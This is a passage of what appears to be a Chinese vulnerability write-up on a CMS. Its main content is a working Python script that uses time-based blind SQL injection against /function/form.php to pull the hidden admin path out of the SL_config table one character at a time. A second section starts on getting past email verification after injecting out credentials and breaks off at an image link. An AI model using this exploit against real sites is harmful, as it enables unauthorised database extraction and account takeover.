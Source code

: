 1.1 获取后台地址
----------

通过监控修改后台时执行的SQL语句，发现：后台地址存在在SL\_config表的C\_admin表里面，所以可以通过注入的方式获取后台地址。

```php
import requests,time

x = [str(x) for x in range(0, 10)]
y = [chr(y) for y in range(97, 123)]
# z = [chr(y) for y in range(65, 90)] # 大写字母
dic = x+y

url="http://127.0.0.1/"

# select C_admin from SL_config

""" 注入后台路径 """
result=''
for x in range(1,30):
    data = {
        "1-if((select(length(C_admin))from/**/SL_config)='{}',sleep(5),1)".format(str(x)):"xxx"
    }
    startTime = time.time()
    res = requests.post(url + '/function/form.php?action=input', data=data)
    endTime = time.time()
    if endTime - startTime > 5:
        print('[+] 路径长度：' + str(x))
        break

for i in range(1,x+1):
    for j in dic:
        data={
            "1-if((select(substr(C_admin,{},1))from/**/SL_config)='{}',sleep(5),1)".format(str(i),j):"xxx"
        }
        startTime = time.time()
        res = requests.post(url+'/function/form.php?action=input',data=data)
        endTime = time.time()
        if endTime - startTime > 5:
            result=result+j
            print('[+] 路径：'+result)
            break
```

1.2 邮件验证码
---------

在进行漏洞验证的时候，发现注入出账号密码后，异地IP登陆需要验证码，下面是获取验证码的流程

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7e55a2a872c4cda86b5247c5ad190b376c97a751.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7e55a2a872c4cda86b5247c5ad190b376c97a751.png)
